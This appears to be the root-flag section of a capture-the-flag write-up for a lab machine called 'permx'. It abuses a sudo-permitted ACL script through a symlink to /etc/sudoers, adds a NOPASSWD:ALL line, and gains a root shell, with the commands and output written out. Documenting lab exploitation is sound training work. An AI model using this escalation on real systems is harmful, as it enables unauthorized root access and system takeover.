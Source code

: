This script modifies the access control list (ACL) of a specified file to change its permissions for a particular user. It only allows changes to files within the `/home/mtz` directory and prevents the use of parent directory references (`..`).

To exploit this, we can use a technique involving symbolic links. By creating a symbolic link to a directory that the compromised user controls and placing it in their home directory, we can manipulate the permissions of files. Here's how to replicate this technique:
# Root Flag
1. **Create a symbolic link to the `sudoers` file:**

```bash
mtz@permx:~$ ln -s /etc/sudoers escalate
```
2. **Use the `/opt/acl.sh` script to change the permissions of the symbolic link:**

```bash
mtz@permx:~$ sudo /opt/acl.sh mtz rw /home/mtz/escalate 
```
3. **Edit the `sudoers` file through the symbolic link to grant `mtz` root privileges:**

```bash
mtz@permx:~$ vim escalate 

#Inside `vim`, add the following line to grant `mtz` root privileges without requiring a password:

mtz ALL=(ALL) NOPASSWD:ALL
```

4. **Switch to the root user:**

```bash
mtz@permx:~$ sudo su
[sudo] password for mtz: 
root@permx:/home/mtz# 
root@permx:/home/mtz# cd
root@permx:~# ls
backup  reset.sh  root.txt
root@permx:~# 
```
By following these steps, you have successfully escalated privileges to root and accessed the root flag.